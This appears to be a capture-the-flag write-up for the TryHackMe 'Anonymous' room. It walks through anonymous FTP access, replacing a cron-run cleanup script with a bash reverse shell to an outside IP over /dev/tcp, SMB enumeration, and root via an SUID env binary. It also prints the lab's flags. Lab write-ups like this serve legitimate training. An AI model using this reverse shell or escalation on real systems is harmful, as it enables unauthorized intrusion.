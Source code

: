 # Tryhackme.com Room : Anonymous
`https://tryhackme.com/room/anonymous`


# Instance
```
export IP=10.10.28.92
```

# Nmap
```
```

We login to the `ftp` using `anonymous` login.
We find 3 files :
`cat clean.sh` :
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

`cat removed_files.log` :
```
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

`cat to_do.txt` :
```
I really need to disable the anonymous login...it's really not safe
```

Seems like we can upload files but it's really slow. Look like there is a sleep delay somewhere to discourage us (I guess ?)
It looks like `clean.sh` is executed via a `cronjob`.
let's upload a reverse shell in place of `clean.sh`

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.6.32.20/7777 0>&1
```

While it's uploading, I've ran nmap on all ports and found these other ports opened :
```
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

We retrieve the shares using `smbmap -H 10.10.28.92` :
```
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        pics                                                    READ ONLY       My SMB Share Directory for Pics
        IPC$                                                    NO ACCESS       IPC Service (anonymous server (Samba, Ubuntu))  
```

In this share we find 2 `jpg` files. not sure what to do with those, tried to run `stegcracker` but found nothing.

Back to the ftp.
our `clean.sh` is not executed, probably because it doesn't have execution permissions.
We can't run `chmod +x clean.sh` from the `ftp` command line. We get a permission denied.

To work around this, I first uploaded a file containing the reverse shell and then I used `append shell.sh clean.sh` so that the shell was appended to the file with the correct permissions.

An we are now in as `namelessone`.

we find `/home/namelessone/user.txt` :
```
90d6f992585815ff991e68748c414740
```

## Priv Esc

We try `sudo -l` but we don't have the password for `namelessone`.
Looked around a bit, didn't find interesting stuff so I ran `linpeas` and found that `/usr/bin/env` had `SUID` bit set.
Getting a root shell was as simple as 
```
env /bin/sh -p
```

And we are `root`. Now we can retrieve the flag `/root/root.txt`
```
4d930091c31a622a7ed10f27999af363
```

## Wrap up
* Learned about the `append` ftp command. Usefull when you want to upload a script but can't change permissions on a file.
** Not sure why this was needed tho... The cron job should call /bin/sh -c '/var/ftp/scripts/clean.sh'. Weird that it didn't work when I replaced the whole file.
* The `env` binary could have been found using `find / -perm -4000 2>/dev/null`. Linpeas was not needed here..
* Seems like there was another way to exploit this box by uploading a malicious `lxc` container. (`https://reboare.github.io/lxd/lxd-escape.html`)